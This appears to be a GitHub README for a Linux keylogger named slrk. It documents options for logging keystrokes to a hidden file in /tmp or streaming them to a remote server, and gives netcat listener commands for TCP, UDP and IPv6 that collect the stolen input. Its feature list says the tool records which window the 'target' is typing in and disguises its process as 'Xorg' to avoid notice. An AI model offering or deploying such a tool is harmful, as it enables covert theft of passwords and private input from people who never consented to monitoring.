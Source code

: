 # Simple_Local&Remote_Keylogger

DESCRIPTION:<br><br>
Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE:<br><br>
---It works with both TCP and UDP---<br><br>
[TCP]<br>
Server$ nc -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br><br>
[UDP] <br>
Server$ nc -u -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br><br>
---It works with ipv6 too--- <br><br>
Server$ nc -6 -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a ::1 -p 8888
__________________________________________________________________________
<br>(It shows the active window on which the target is writing)
<br>(Keys are mapped on English keyboard)
<br>(It shows the keyboard layout (e.g.: us, it, colemak, etc..))  
(Process name is renamed as "Xorg")
